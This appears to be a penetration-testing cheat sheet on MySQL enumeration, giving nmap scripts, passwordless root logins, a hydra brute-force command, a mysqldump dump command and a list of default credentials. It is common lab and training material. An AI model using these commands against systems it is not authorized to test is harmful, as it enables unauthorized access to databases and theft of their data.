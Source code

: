 # MySQL Enumeration (3306)

## Run nmap MySQL scripts
```bash
nmap --script=mysql-* -p 3306 $IP
```

## Connect to MySQL
```bash
# Anonymous: -u root without -p OR -u root -ppassword for auth
mysql -h $IP -u root
```

## Brute force MySQL with hydra
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt $IP mysql
```

## Dump MySQL database with mysqldump
```bash
mysqldump -h $IP -u root -ppassword database_name > dump.sql
```

---

# MySQL Enumeration Methodology

## Initial Reconnaissance

1. Identify MySQL service on port 3306
2. Test for anonymous/guest access (root with no password)
3. Try default credentials
4. If credentials obtained, enumerate databases and tables
5. Look for FILE privilege for file operations
6. Extract sensitive data and credentials

## Authentication Testing

**Anonymous access:**
Try connecting without password:
```bash
mysql -h $IP -u root
mysql -h $IP -u admin
mysql -h $IP -u ''
```

**Common default credentials:**
- root: (blank)
- root:root
- root:admin
- root:password
- admin:admin
- user:user
